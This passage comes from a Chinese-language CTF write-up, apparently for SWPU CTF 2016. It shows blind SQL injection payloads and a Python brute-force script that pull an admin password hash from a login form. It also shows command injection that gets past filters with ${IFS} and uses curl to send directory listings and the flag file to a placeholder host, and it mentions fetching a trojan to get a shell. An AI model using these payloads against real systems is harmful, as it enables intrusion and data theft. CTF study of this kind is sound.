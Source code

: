    ```Python
   Cookie: PHPSESSID=h28ht7sld80jlsvcil0q5e2p90
    
   uname=uname'=(select(1)from(admin)where(mid((passwd)from(%d))='%s%s'))='&passwd=1''' % (32-length,i,flag)
           a,b,c,d,e = hh.http(url,raw=raw)
           if "password" in c:
               flag = i + flag
               print 32-length,flag
   ```

   得到c12366feb7373bf6d869ab7d581215cf，解码=》1234567mn

6. 登录进去又是一个坑，一个命令执行的坑

   测试了一下还是过滤了bash,[Python](http://lib.csdn.net/base/python),[PHP](http://lib.csdn.net/base/php),perl,空格，但是留下了curl这个命令

   空格在Linux中可以用${IFS}替换

   接下来，我们就可以使用curl指令，让其到我们自己的主机上获取文件（获取木马文件），拿shell了。或者还有一个思路，就是通过我们server的log来查看信息，就是通过get请求。[使用curl来获取信息](http://blog.l1n3.net/writeup/swpu_ctf_2016_writeup/)

   ```bash
   curl http://xx.xx.xx.xx/`ls ../../|head -n 1|tail -n 1`
   在这个目录下可以看到flag
   然后，cat一下
   curl http://xx.xx.xx.xx/`cat ../../flag`
   就能得到flag
   ```

7. 其他payload：

   ```sql
   uname='!=!!(ascii(mid((passwd)from(1)))=99)!=!!'1&passwd=dddd

   uname=12'%(ascii(mid((passwd)from(1)))=99)%'1&passwd=dddd

   uname=12'%(ascii(mid((passwd)from(1)))=99)^'1&passwd=dddd

   uname=12'-(length(trim(leading%a0'c12'%a0from%a0passwd))<32)-'0&passwd=1
   ```

   ```Python
   __author__ = 'niexinming'  
   import urllib2  
   url="http://web1.08067.me/login.php"  
   data="abcdefghijklmnopqrstuvwxyz1234567890"  
   xx=""  
   flag=0  
   listdata=list(data)  
   for jj in range(0,33)[::-1]:  
       #print jj  
       for ii in listdata:  
           post_data="uname=admin'=(select(select(substring(passwd%a0from%a0"+str(jj)+"))from%a0admin%a0where%a0uname='admin')='"+ii+xx+"')='1'='1&passwd=2"  
           #print post_data  
           req = urllib2.urlopen(url, post_data).read()  
           if(req.find('password error')>-1):  
               flag=1  
               xx=ii+xx  
               print xx  
               break  
           else:  
               flag=0  
   ```

